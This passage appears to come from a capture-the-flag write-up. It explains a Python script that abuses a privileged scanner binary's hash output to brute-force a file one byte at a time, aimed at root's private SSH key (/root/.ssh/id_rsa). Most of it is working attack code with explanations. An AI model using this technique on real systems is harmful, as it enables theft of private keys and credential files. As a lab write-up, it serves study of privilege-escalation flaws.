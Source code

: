 #### get_hash function

The get hash function is as the name sugests the function we use to obtain the hash of the file we want to extract. This function will get looped through each time increasing the amount (i) of bytes we want to retrieve. The scanner binary would output the data as the following:  [DEBUG] /root/.ssh/id_rsa has hash 336d5ebc5436534e61d16e63ddfca327 
This data is not usable so i added the **.split(" ")[-1].rstrip()** parameters at the end to only use the last part of the string containing the hash. This hash will then be returned back to the main function.
 
```
def get_hash(i):
    temp_hash = os.popen(f"/opt/scanner/scanner -c {file_to_brute} -s 0 -p -l {i}").read().split(" ")[-1].rstrip()
    return temp_hash
```


#### find_char function

So in the previous function we obtained the hash of the file with a specific length. in this function we'll try to brute force what those characters are. We will loop through every letter in our character set to try and find the right character. Each time we add the next letter in the character set to our already verified amount of bytes of data. Then we'll make an MD5 hash of this combination, if the hash matches it will break out of the loop returning the value it found. If it didn't match it will keep retrying till it finds the right printable character.


```
def find_char(temp_hash):
    for i in charset:
        test_data = current_read + i
        current_hash = hashlib.md5(test_data.encode()).hexdigest()
        if temp_hash == current_hash:
            return i
    return None
```
#### main loop 

The main loop uses the previously explained functions to automate the brute forcing of the file. First it runs the get_hash function using our incrementing counter to always take one byte more per loop. next it feeds that hash value into the find_char function to brute force this specific character. Each time it finds a new character it adds it to the current_read variable slowly building up the entire file. If it doesn't find a new character anymore it means the file is finished and we can output the results.

```
i = 1
while True:
    temp_hash = get_hash(i)
    new_char = find_char(temp_hash)
    if not new_char:
        break
    else:
        current_read += new_char
        i += 1

print("FINAL FILE:")
print(current_read)
```

